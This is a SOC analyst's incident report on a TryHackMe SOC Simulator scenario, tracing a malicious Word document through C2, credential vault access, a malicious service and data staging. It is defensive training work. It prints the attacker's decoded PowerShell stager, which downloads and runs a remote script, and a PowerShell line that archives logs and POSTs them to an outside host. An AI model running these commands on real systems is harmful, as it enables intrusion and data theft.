





# Repossessed: SOC Simulator Incident Report

|   |   |
|---|---|
| **Name** | Christian Tyler Pittman / Oct 24th 2026 |
| **Platform** | TryHackMe SOC Simulator (scenario: *Repossessed*, medium) |
| **SIEM used** | Splunk |
| **Role** | Tier 1 SOC analyst (solo) |
| **Scope** | 9 alerts triaged (IDs 6352 to 6360), 2 hosts, 2 accounts |
| **Outcome** | Confirmed compromise of two hosts: document-based initial access, C2, credential store access, discovery, lateral movement through a malicious service, and collection and attempted exfiltration of data, including the unreleased game build |


## 1. Summary

Marketing user `m.smith` (host `THM-MSMITH`) opened a macro-enabled Word doc, `Q3_PressKit_Feedback.docm`, and Word launched a hidden, encoded PowerShell command right away. I decoded it. It downloads a script called `svchost_update.ps1` from an outside server and runs it. The script calls back to `45.147.230.131:8067`, lists saved Windows credentials with `vaultcmd.exe`, and runs `net user /domain`.

The same script name then shows up on a second host, `THM-SREYES`. The service account `svc-mktshare` installed a service there called `SvcUpdate` that runs the script as `LocalSystem`. On that host, hidden PowerShell archived crash logs and tried to upload them to `telemetry-vendor.thm`. Then 7-Zip packed the unreleased game build (`C:\Dev\NeuralNexus\Build\`) into `C:\Windows\Temp\nx_build_beta.7z`. The host also kept connecting to the attacker's server, `45.147.230.131:8067` (73 events in my Splunk search), and the simulator scored that last alert as exfiltration.†

All nine alerts (6352 to 6360) ended up as true positives. I closed two of them, 6352 and 6358, as false positives and got marked wrong. More on that in Key Takeaways. What I couldn't confirm is the exact file that was uploaded and whether each upload worked.

*† means the detail comes from the simulator's feedback on my case reports, not from events I pulled myself. See Section 8.*


## 2. Objectives and Answers

| # | Objective | Answer |
|---|---|---|
| 1 | Identify what caused the unusual activity on a workstation | Word opened `Q3_PressKit_Feedback.docm` from `m.smith`'s Downloads folder and spawned hidden, encoded PowerShell (PID 8572) on `THM-MSMITH`. That command downloads and runs `svchost_update.ps1`. It's a `.docm`, so a macro is the likely trigger, but I didn't look at the macro itself. |
| 2 | Was the workstation communicating with an external party? | Yes. `THM-MSMITH` (10.60.10.22) connected out to `45.147.230.131:8067` from PID 8572 (the download) and again from PID 9356 (the second-stage script, 02:19:20). `Initiated: true` means the workstation started the connection, so this is outbound C2 traffic, not someone connecting in. `THM-SREYES` later talked to the same server (alert 6360). |
| 3 | How did the actor reach additional systems? | The script ran `vaultcmd /listcreds` on `THM-MSMITH`. Later `svc-mktshare` created the `SvcUpdate` service on `THM-SREYES` (Event 4697). Stolen credentials from the first host are the likely way in, but I can't prove the link from what I captured, and I never pulled the logon event showing where the `svc-mktshare` session came from. |
| 4 | Was data accessed or removed? | Yes, on `THM-SREYES`. PowerShell as SYSTEM archived `C:\ProgramData\CrashReports\*.log` into `crashlogs.7z` and tried to POST it to `telemetry-vendor.thm/upload` (alert 6358). About half an hour later 7-Zip packed the unreleased game build into `C:\Windows\Temp\nx_build_beta.7z` (alert 6359), and the host kept connecting to the attacker's server (alert 6360).† I never saw the upload command itself, so I can't say which file went out or whether each upload worked. |


## 3. Alert Triage

Every alert ended up a true positive. The two shaded yellow are the ones I first closed as false positives.

| Alert | Name | Severity / Tactic | Verdict | Reasoning |
|---|---|---|---|---|
| 6352 | Suspicious Child Process Spawned (`ai.exe`) | High / Execution | **True positive** (initial call: false positive) | I called this a false positive because `ai.exe` (Microsoft Corporation, "Local AI Host") lives in Office's own folder, gets Word's PID (6184) as an argument, and loads an `.onnx` model. That looked like normal Office behavior, and the simulator marked my call **incorrect**. It has the same ParentProcessGuid and Logon ID (`0x9C30E0`) as the bad PowerShell in alert 6353, so it's part of the same incident. I never checked its hash, so I shouldn't have ruled it out. |
| 6353 | Suspicious Child Process Spawned (`powershell.exe`) | High / Execution | **True positive** | Word spawned 32-bit PowerShell with `-NoP -W Hidden -Enc <Base64>`. A Word doc has no reason to do that. The decoded command is a downloader (Section 5). |
| 6354 | Suspicious Outbound Connection Following Document Execution | High / Command and Control | **True positive** | Same PowerShell (PID 8572) connected from `10.60.10.22` to `45.147.230.131:8067`. The port matches the URL in the decoded command, and a Marketing workstation has no business with that address. |
| 6355 | Anomalous Credential Vault Access | High / Credential Access | **True positive** | `vaultcmd.exe /listcreds:"Windows Credentials"` was launched by PID 9356, which was running `svchost_update.ps1` from `m.smith`'s Temp folder. Support does sometimes check the vault, but not from a hidden script with the execution policy bypassed. |
| 6356 | Rapid Domain and Host Enumeration from Non-Administrative Host | High / Discovery | **True positive** | `net.exe user /domain` from the same PID 9356 on a normal user workstation. I only captured one command in the alert, but the alert describes a burst. |
| 6357 | Suspicious Remote Logon and Service Creation | Critical / Lateral Movement | **True positive** | Event 4697 on `THM-SREYES`. `svc-mktshare` installed `SvcUpdate` with a binary path of `cmd.exe /c start /b powershell.exe -NoP -NonI -W Hidden -ExecutionPolicy Bypass -File C:\Windows\Temp\svchost_update.ps1`, running as `LocalSystem`. A real service points at a real executable. It's also the same script name as the stager on `THM-MSMITH`. |
| 6358 | Suspicious External Connection Following Archive Creation (crash logs) | Critical / Exfiltration | **True positive** (initial call: false positive) | I closed this as a false positive and got marked **incorrect**. Hidden PowerShell as `NT AUTHORITY\SYSTEM` archived log files and POSTed them to `telemetry-vendor.thm`, with `-ErrorAction SilentlyContinue` hiding errors. The "vendor telemetry" name and the CrashReports folder made it look routine, but nothing showed the destination was an approved service, and it came from the host where the attacker had just installed a SYSTEM service. I also never checked whether any other host talks to that domain. |
| 6359 | Suspicious Archive Utility Execution on Workstation | High / Collection | **True positive** | `7z.exe a -mx=1 C:\Windows\Temp\nx_build_beta.7z C:\Dev\NeuralNexus\Build\` on `THM-SREYES` packs the unreleased game build into the Windows Temp folder. A normal user session wouldn't do that. The simulator's review traces the parent to the PowerShell running `C:\Windows\Temp\svchost_update.ps1`, the same stager chain, which also holds a connection to `45.147.230.131`.† |
| 6360 | Suspicious External Connection Following Archive Creation (C2 server) | Critical / Exfiltration | **True positive** | Repeated outbound connections to the attacker's server `45.147.230.131:8067` (73 events in my Splunk search, across both hosts), made by `powershell.exe` on `THM-SREYES` soon after the build archive was created.† The review says the stager on this host checks in about every 30 seconds and that the script is still running and can send more data.† I didn't capture the upload command (a PowerShell script block event) that would name the file sent. |


## 4. Timeline

All times are the raw `timestamp` field in each event. Splunk's display column shows one hour earlier, so I used the raw field everywhere.

I did this scenario in two sessions because I lost progress partway through. Phase 1 and Phase 2 come from different sessions, so the gap of about a day between them isn't real attacker dwell time.


### Phase 1: Marketing workstation (THM-MSMITH, 10.60.10.22), Oct 23, 2026

| Time | Event |
|---|---|
| 02:12:15 | `WINWORD.EXE` (PID 6184) opened `C:\Users\m.smith\Downloads\Q3_PressKit_Feedback.docm` and spawned 32-bit `powershell.exe` (PID 8572) with `-NoP -W Hidden -Enc ...` (Splunk event 46148, Sysmon EventCode 1) |
| 02:12:18 | PID 8572 opened a TCP connection from `10.60.10.22:54331` to `45.147.230.131:8067` (event 46159, EventCode 3). *Alert 6354 reports 02:11:20 for this same event; see Section 8.* |
| ~02:13 | Alerts 6352, 6353, 6354, and 6355 raised |
| ~02:13 | `vaultcmd.exe /listcreds:"Windows Credentials"` (PID 10872) run by PowerShell PID 9356, which was executing `svchost_update.ps1` from the user's Temp folder |
| 02:18 | Alert 6356: `net.exe user /domain` (PID 9744) run by PowerShell PID 9356 |
| 02:19:20 | PID 9356 connected from `10.60.10.22:51475` to `45.147.230.131:8067` (event 46258), confirming the second-stage script is communicating with the same server |


### Phase 2: Second host (THM-SREYES, 10.60.10.20), Oct 24, 2026

| Time | Event |
|---|---|
| 04:39:57 | Event 4697: service `SvcUpdate` installed by `TRYHATME\svc-mktshare` (Logon ID `0x24F6572`), `LocalSystem`, start type 3 (manual) (Splunk event 7589). Alert 6357 raised at 04:40 |
| 04:44:56 | `7z.exe` (PID 12444, parent PowerShell PID 12408, SYSTEM) archived `C:\ProgramData\CrashReports\*.log` into `crashlogs.7z` (event 43433) |
| 04:44:57 | Two outbound TCP 443 connections from `10.60.10.20` (ports 56222, 56223) to `104.18.32.47`, same PowerShell PID 12408 (events 43438, 43439) |
| 04:44:58 | DNS query from PID 12408: `telemetry-vendor.thm` resolved to `104.18.32.47` (event 43440). Alert 6358 raised at 04:45 |
| ~05:13 | Alert 6359: `7z.exe a -mx=1 C:\Windows\Temp\nx_build_beta.7z C:\Dev\NeuralNexus\Build\` on `THM-SREYES` (the unreleased game build). Parent: PowerShell running `svchost_update.ps1`† |
| ~05:20 | Alert 6360: repeated connections from `powershell.exe` on `THM-SREYES` to `45.147.230.131:8067`, about every 30 seconds† |


## 5. Technical Analysis


### 5.1 Initial access and execution

The parent command line shows Word opened `Q3_PressKit_Feedback.docm` from the Downloads folder. Word then started PowerShell with three flags that are meant to hide it:

| Flag | Purpose |
|---|---|
| `-NoP` | Skips the user's PowerShell profile |
| `-W Hidden` | Hides the window from the user |
| `-Enc` | Hides the real command inside Base64 |

I decoded the payload in CyberChef with **From Base64**, then **Decode text** set to **UTF-16LE**. It needs UTF-16LE because that's how PowerShell encodes `-EncodedCommand` data. Here's the result:

```
$stager = "$env:TEMP\svchost_update.ps1"
(New-Object Net.WebClient).DownloadFile('http://paylink-cdn.thm:8067/svchost_update.ps1', $stager)
Start-Process powershell.exe -ArgumentList "-NoP -W Hidden -ExecutionPolicy Bypass -File `"$stager`"" -WindowStyle Hidden
```



*Figure 1: CyberChef recipe (From Base64, then Decode text with UTF-16LE) and the decoded stager command*

This is a **stager**. It downloads a script into the Temp folder over plain HTTP on an odd port (8067) and runs it hidden with the execution policy bypassed. The name `svchost_update.ps1` is meant to look like the real Windows `svchost.exe` process.


### 5.2 Command and control

PID 8572 connected to `45.147.230.131:8067` three seconds after it launched, which matches the download URL. The port and timing point to `paylink-cdn.thm` resolving to that IP, but I never pulled a DNS event to confirm it. PID 9356 (the script that's running now) connected to the same address and port later.



*Figure 2: Splunk event 46159 (Sysmon EventCode 3), PowerShell PID 8572 connecting out to 45.147.230.131:8067*

I got PID 9356 from the parent command line in alert 6355: PowerShell running `svchost_update.ps1` from a short-name path (`C:\Users\MC0CD~1.SMI\AppData\Local\Temp\`) under `m.smith`'s profile. That fits with the stager's `Start-Process` call.


### 5.3 Credential access and discovery

The script used built-in Windows tools to:

- list stored credentials with `vaultcmd.exe /listcreds:"Windows Credentials"`
- run `net user /domain` to list domain accounts

`vaultcmd /listcreds` lists Credential Manager entries. I didn't work out which credentials were exposed.



*Figure 3: Alert 6355, vaultcmd.exe listing Windows credentials, launched by the svchost_update.ps1 PowerShell process*


### 5.4 Lateral movement and persistence

On `THM-SREYES`, event 4697 shows `SvcUpdate` created under `svc-mktshare`, with a `cmd.exe` to hidden PowerShell chain pointing at `C:\Windows\Temp\svchost_update.ps1`, running as `LocalSystem`. That gives the attacker persistence and SYSTEM privileges on the second host. The alert also asks whether the session came in over the network. I didn't pull the logon event (4624), so I can't answer that.



*Figure 4: Alert 6357, the SvcUpdate service installed by svc-mktshare on THM-SREYES (Event 4697)*


### 5.5 Crash-log archive and attempted upload

Parent command line of the 7-Zip process (PID 12408, SYSTEM):

```
"powershell.exe" -NoProfile -WindowStyle Hidden -Command "& "7z.exe" a "C:\ProgramData\CrashReports\crashlogs.7z" "C:\ProgramData\CrashReports\*.log"; Invoke-RestMethod -Uri "https://telemetry-vendor.thm/upload" -Method Post -InFile "C:\ProgramData\CrashReports\crashlogs.7z" -TimeoutSec 10 -ErrorAction SilentlyContinue; Start-Sleep -Seconds 5"
```



*Figure 5: Sysmon process-create event for 7z.exe, with the parent PowerShell command that archives and uploads the logs*

7-Zip is legit software, so a hash lookup wouldn't catch it. What's wrong is the behavior: a hidden SYSTEM process packs files and POSTs them to an outside "vendor" domain with errors suppressed. Sysmon doesn't record bytes sent, and `-ErrorAction SilentlyContinue` means a failed upload leaves no error either, so I'm calling it an **attempted** upload.


### 5.6 Game build archive and exfiltration to the C2 server

About half an hour later, alert 6359 shows `7z.exe` packing `C:\Dev\NeuralNexus\Build\`, the unreleased game build, into `C:\Windows\Temp\nx_build_beta.7z` (`-mx=1` is the fastest compression). Putting the archive in Windows Temp looks like staging: collect now, send later. The simulator's review traces this 7-Zip process to a PowerShell instance running `C:\Windows\Temp\svchost_update.ps1`, the same script name as on `THM-MSMITH` and in the `SvcUpdate` service.†

Alert 6360 then shows repeated connections to `45.147.230.131:8067`, the same server the first workstation called. That points to one intrusion with a shared C2 server.† The review says the check-ins happen about every 30 seconds and the script is still running and could send more data.† The upload command and file name are in a PowerShell script block event I didn't capture, so I can't confirm `nx_build_beta.7z` was the file sent, though it's the likely one.


## 6. MITRE ATT&CK Mapping

This mapping is my own assessment of the observed behavior.

| Tactic | Technique | Evidence |
|---|---|---|
| Execution | T1204.002 User Execution: Malicious File | `.docm` opened by `m.smith` |
| Execution | T1059.001 PowerShell | Hidden, encoded PowerShell chain |
| Defense Evasion | T1027.010 Command Obfuscation | Base64 `-Enc` payload |
| Defense Evasion | T1036 Masquerading | `svchost_update.ps1`, `SvcUpdate` service name |
| Command and Control | T1105 Ingress Tool Transfer | `DownloadFile` of `svchost_update.ps1` |
| Command and Control | T1071.001 Web Protocols | Callbacks to `45.147.230.131:8067` |
| Credential Access | T1555.004 Windows Credential Manager | `vaultcmd /listcreds` |
| Discovery | T1087.002 Domain Account Discovery | `net user /domain` |
| Persistence / Lateral Movement | T1543.003 Windows Service | `SvcUpdate` service (Event 4697) |
| Collection | T1005 Data from Local System | `C:\Dev\NeuralNexus\Build\` and `CrashReports` logs |
| Collection | T1560.001 Archive via Utility | `7z.exe` creating `crashlogs.7z` and `nx_build_beta.7z` |
| Collection | T1074.001 Local Data Staging | `nx_build_beta.7z` written to `C:\Windows\Temp\` |
| Exfiltration | T1048.002 Exfiltration Over Asymmetric Encrypted Non-C2 Protocol | HTTPS POST to `telemetry-vendor.thm` (attempted) |
| Exfiltration | T1041 Exfiltration Over C2 Channel | Repeated connections to `45.147.230.131:8067` (alert 6360); exact file sent not confirmed |


## 7. Indicators of Compromise

| Type | Value | Notes |
|---|---|---|
| File | `Q3_PressKit_Feedback.docm` | Lure document, `C:\Users\m.smith\Downloads\` |
| File | `svchost_update.ps1` | `%TEMP%` on `THM-MSMITH`; `C:\Windows\Temp\` on `THM-SREYES` |
| File | `C:\ProgramData\CrashReports\crashlogs.7z` | Staged archive |
| File | `C:\Windows\Temp\nx_build_beta.7z` | Staged archive of `C:\Dev\NeuralNexus\Build\` (unreleased game build) |
| Service | `SvcUpdate` | On `THM-SREYES`, runs as `LocalSystem` |
| Domain | `paylink-cdn.thm` (port 8067) | Stager download host |
| Domain | `telemetry-vendor.thm` | Upload destination; resolved to `104.18.32.47` |
| IP | `45.147.230.131` (port 8067) | C2 / stager server |
| IP | `104.18.32.47` (port 443) | Upload destination |
| Account | `svc-mktshare` | Used to create the service on `THM-SREYES` |
| Account | `TRYHATME\m.smith` | Victim user on `THM-MSMITH` |
| Hosts | `THM-MSMITH` (10.60.10.22), `THM-SREYES` (10.60.10.20) | Affected systems |

Reference hashes of **legitimate binaries** abused or involved (not IOCs on their own):

| Binary | MD5 |
|---|---|
| `powershell.exe` (SysWOW64) | `B94110F627D2BA6C57EB84A0F9575B27` |
| `ai.exe` | `82341DD9F4BF17ED8DB9D2548D0BDB9F` |
| `vaultcmd.exe` | `4D2AD9A08F33212EDE3A128E23F00759` |
| `net.exe` (SysWOW64) | `28C604BE558D42A7A999B67219BCE2DB` |
| `7z.exe` | `B6D5860F368B28CAA9DD14A51666A5CD` |


## 8. Limitations and Open Questions

- **Where the † items come from.** They come from the simulator's feedback on my case-report submissions. I didn't capture the underlying Splunk events for them during the investigation.
- **Timestamp mismatches.** Alert 6354 says its connection happened at 02:11:20, but Splunk shows the same event ID and source port at 02:12:18, after the PowerShell launch at 02:12:15. Alert 6358 says 04:43:59 while the underlying events say 04:44:57. Alert times and event times seem to differ in this simulator, so I used the event times.
- **Alert times for 6359 and 6360** (about 05:13 and 05:20 on Oct 24) are the alert-queue times I wrote down. I didn't capture the underlying events.
- **DNS ordering.** The DNS lookup for `telemetry-vendor.thm` is logged about a second after the connections it should come before. I'm treating that as a logging-order quirk.
- **Beaconing.** I saw repeated connections to `45.147.230.131:8067` (73 events in my Splunk search) but didn't measure the interval myself. The 30-second figure comes from the simulator's review.†
- **Upload command not captured.** I never pulled the PowerShell script block event that should show the exact upload command and file name for alert 6360, so I can't confirm what was sent or whether it worked.
- **How PID 12408 started** on `THM-SREYES` is unknown. The `SvcUpdate` service is the likely launcher, but I have no event showing it.
- **Logon source for svc-mktshare.** I never reviewed a 4624 logon event, so I can't say whether the logon was over the network or where it came from.
- **Crash-log contents** weren't examined, and I don't know whether that upload succeeded.
- **Hash lookups** weren't done, including for `ai.exe`. The binaries involved are legit Windows or vendor tools, so I judged them on behavior.


## 9. Recommendations

**Immediate containment**

1. Isolate `THM-SREYES` from the network immediately, because the attacker's script is still running and can send more data.† Isolate `THM-MSMITH` as well.
2. Terminate the malicious PowerShell processes; stop and delete the `SvcUpdate` service on `THM-SREYES`.
3. Delete `svchost_update.ps1` from both Temp locations, and `crashlogs.7z` and `nx_build_beta.7z` from the staging folders.
4. Block `45.147.230.131` (port 8067) at the perimeter to cut the attacker's channel and stop further uploads. Also block `104.18.32.47`, `paylink-cdn.thm`, and `telemetry-vendor.thm` at the firewall, proxy, and DNS.
5. Reset passwords for `m.smith` and `svc-mktshare`, plus any credentials stored in `m.smith`'s Credential Manager. Treat them all as compromised.

**Investigation follow-up**

- Treat the NeuralNexus build as exposed until proven otherwise. Find the upload command in PowerShell script-block logs (EventCode 4104) on `THM-SREYES` and in firewall or proxy logs to confirm what left the network.
- Hunt every host for `SvcUpdate`, `svchost_update.ps1`, the two IPs, and the two domains.
- Review `svc-mktshare` logons across the environment (Event 4624/4672) to find every host it touched.

**Hardening**

- Block Office applications from spawning child processes (Attack Surface Reduction rules) and block macros in files from the internet.
- Enable PowerShell Script Block Logging and alert on `-Enc`, `-W Hidden`, and `-ExecutionPolicy Bypass` launched from Office or service contexts.
- Alert on Event 4697 where the service binary path points at `cmd.exe`, `powershell.exe`, or `Temp`.
- Restrict service accounts to the hosts and logon types they need; use unique, rotated credentials.
- Apply egress filtering so servers cannot reach newly seen external domains, and review "telemetry/vendor" destinations against an approved list. Restrict access to source and build directories and alert on bulk archiving there.


## 10. Key Takeaways

- Pivoting on **process GUIDs and parent command lines** is what tied the separate alerts into one attack chain.
- The same script name on two hosts, plus the same C2 address, connected the workstation compromise to the activity on the second host.
- The attacker used legit tools (PowerShell, vaultcmd, net, 7-Zip), so behavior and context mattered more than file reputation.
- **I missed two.** I closed 6352 and 6358 as false positives and the simulator scored both incorrect. In 6352 the child looked like a normal Office helper, but it shared a parent process and logon session with the malicious PowerShell. In 6358 the "vendor telemetry" wording made staging and an upload look routine. Next time, if an alert sits on a host or process already tied to a confirmed intrusion and I haven't verified it (hash, destination, other hosts using it), I won't close it as a false positive.
- **Case reports are graded on the 5 Ws.** From now on I name the exact host, the process, the destination IP and port, and a full date and time, and I trace every process back to its parent.
- I wrote "attempted" and listed what I couldn't confirm so the report only claims what the evidence supports.
